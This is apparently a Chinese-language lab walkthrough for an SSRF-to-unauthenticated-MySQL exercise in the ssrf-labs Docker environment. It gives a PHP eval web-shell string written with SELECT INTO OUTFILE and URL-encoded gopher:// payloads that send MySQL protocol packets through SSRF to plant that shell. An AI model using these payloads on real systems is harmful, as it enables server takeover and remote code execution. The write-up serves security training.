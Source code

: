 # ssrf+mysql未授权

```
docker 安装
git clone https://github.com/ProbiusOfficial/ssrf-labs.git
cd ssrf-labs
docker-compose up -d
```

```
root@iZj6c7fb82q0r1fabjtxo8Z:~# docker exec -it 6031ef583b01  /bin/sh
mysql -uroot
SHOW GLOBAL VARIABLES LIKE 'secure_file_priv';   确定是允许写入的
```

![image-20250916000028656](images/image-20250916000028656.png)

开启写入

```
 vim /etc/mysql/my.cnf
```

![image-20250916002245716](images/image-20250916002245716.png)



```
SELECT '<?php @eval($_POST[cmd]);?>' INTO OUTFILE '/var/shell.php';   在数据库尝试是否可以写入
```

![image-20250916000604886](images/image-20250916000604886.png)

正常，尝试利用ssrf

![image-20250915192140022](images/image-20250915192140022.png)

```
url=http://172.72.23.29:3306?query=SHOW+DATABASES;    协议不同，乱码了
```

![image-20250915193719973](images/image-20250915193719973.png)

```
gopher://172.72.23.29:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%53%48%4f%57%20%44%41%54%41%42%41%53%45%53%3b%01%00%00%00%01
```

![image-20250915195736383](images/image-20250915195736383.png)

构造payload

![image-20250916000915907](images/image-20250916000915907.png)

```
gopher://172.72.23.29:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%44%00%00%00%03%53%45%4c%45%43%54%20%27%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%63%6d%64%5d%29%3b%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%73%68%65%6c%6c%2e%70%68%70%27%3b%01%00%00%00%01
```

![image-20250916003430734](images/image-20250916003430734.png)

没有报错，应该是写入成功了，直接进目录确认一下

![image-20250916003504423](images/image-20250916003504423.png)

这里连接会有点困难，因为ssrf和MySQL服务不在一个服务器

![image-20250916004313719](images/image-20250916004313719.png)